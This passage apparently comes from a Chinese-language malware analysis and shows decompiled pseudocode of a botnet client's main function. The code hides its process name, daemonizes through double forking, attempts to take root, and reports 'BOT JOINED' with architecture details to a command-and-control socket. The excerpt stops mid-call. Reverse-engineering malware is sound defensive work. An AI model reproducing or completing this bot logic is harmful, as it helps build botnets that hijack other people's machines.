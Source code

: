 * 反編譯後的pseudocode 如下
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  unsigned int v4; // eax
  int v5; // ebx
  unsigned int v6; // eax
  int Endianness; // ebx
  int Build; // eax
  int v9; // r8d
  int v10; // r9d
  int v11; // ebx
  char v13[4096]; // [rsp+50h] [rbp-10D0h] BYREF
  __int64 v14[11]; // [rsp+1050h] [rbp-D0h] BYREF
  char v15[4]; // [rsp+10ACh] [rbp-74h] BYREF
  void *v16; // [rsp+10B0h] [rbp-70h]
  unsigned int v17; // [rsp+10B8h] [rbp-68h]
  int v19; // [rsp+10C0h] [rbp-60h]
  int i; // [rsp+10C4h] [rbp-5Ch]
  char *v21; // [rsp+10C8h] [rbp-58h]
  __int64 v22; // [rsp+10D0h] [rbp-50h]
  unsigned int j; // [rsp+10DCh] [rbp-44h]
  const char *k; // [rsp+10E0h] [rbp-40h]
  const char *v25; // [rsp+10E8h] [rbp-38h]
  char *m; // [rsp+10F0h] [rbp-30h]
  int v27; // [rsp+10FCh] [rbp-24h]
  const char *v28; // [rsp+1100h] [rbp-20h]
  int n; // [rsp+110Ch] [rbp-14h]

  v16 = &unk_40F17D;
  strncpy(*argv, &unk_40F17D, strlen(*argv));
  *argv = (const char *)&unk_40F17D;
  prctl(15LL, v16, 0LL, 0LL, 0LL);
  v3 = time(0LL);
  v4 = getpid();
  srandom(v3 ^ v4);
  v5 = time(0LL);
  v6 = getpid();
  init_rand(v5 ^ v6);
  v17 = fork();
  if ( v17 )
  {
    waitpid(v17, v15, 0LL);
    exit(0);
  }
  if ( (unsigned int)fork() )
    exit(0);
  chdir("/");
  setuid(0);
  seteuid(0);
  signal(13LL, 1LL);
  while ( !(unsigned int)fork() )
  {
    if ( !(unsigned int)initConnection() )
    {
      Endianness = getEndianness();
      Build = getBuild();
      sockprintf(
        mainCommSock,
        (unsigned int)"[\x1B[96mBOT JOINED\x1B[97m] Arch: \x1B[96m%s \x1B[97m|| Type: %s]",
        Build,
        Endianness,
        v9,
```